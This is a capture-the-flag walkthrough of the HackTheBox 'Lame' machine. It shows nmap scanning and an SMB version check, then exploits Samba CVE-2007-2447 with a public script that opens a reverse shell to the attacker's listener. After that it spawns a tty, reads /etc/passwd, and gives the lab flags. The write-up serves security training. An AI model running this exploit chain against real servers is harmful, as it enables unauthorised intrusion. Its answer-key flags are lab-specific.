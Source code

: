 # Lame

## Reconnaissance

### nmap

```
nmap -sV -sC -oA lame 10.129.228.10
```

![](./IMG/0.png)

- Result:
    - Port 21 --> ftp(vsftpd 2.3.4)
    - Port 22 --> ssh(OpenSSH 4.7p1 Debian 8ubuntu1)
    - Port 139 --> samba(netbios-ssn Samba smdb 3.x -4.x)
    - Port 445 --> samba(netbios-ssn Samba smdb 3.0.20-Debian)

- Start enumeration from HackTrick samba and ftp
### Double check smb version

- According the [HackTrick Article](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb)
- Using msfconsole (auxiliary/scanner/smb/smb_version)
- Setting the configuration like RHOSTs
```
> set RHOSTS 10.129.228.10
> run
```

![](./IMG/1.png)

## Exploit + Post Exploitation

- This time is quite simple.
- With the CVE-2007-2447, I can easily exploit the smb server and get 'root' permission

### CVE-2007-2447

- Samba 3.0.20 Arbitrary Command Execution
>This module exploits a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication!

### Exploit 

- First, download the exploit code from [Github](https://github.com/amriunix/CVE-2007-2447)

![](./IMG/2.png)
- Prepare
```
sudo apt install python python-pip
pip install --user pysmb
git clone https://github.com/amriunix/CVE-2007-2447.git
```

![](./IMG/3.png)

![](./IMG/4.png)
- Usage
```
python usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>
```

![](./IMG/5.png)
- Execute
```
python3 usermap_script.py 10.129.228.10 139 10.10.17.145 1337
```

![](./IMG/6.png)
- Check listener 

![](./IMG/7.png)
- Check python version in victim: Python 2.5.2
```
python --version
```
- Update to fully interactive tty
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![](./IMG/8.png)
- Check basic information
```
id
whoami
```

![](./IMG/9.png)

- Check /etc/passwd

![](./IMG/10.png)
- Get user flag: ```a518f5f4d0fe5295db48e2477af82efc```

![](./IMG/11.png)
- Get root flag: ```0890e032ff0898b4440844b298a5fb08```

![](./IMG/12.png)
## Reference 

- [(Github)CVE-2007-0447](https://github.com/amriunix/CVE-2007-2447)
- [(Video)CVE-2007-0447](https://www.youtube.com/watch?v=HPP70Bx0Eck)
- [(HackTrick)smb](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb)
- [CVE-2007-0447_1](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)

###### tags: `HackTheBox` `Lame` `Easy` `CVE-2007-0447` `smb` `linux` 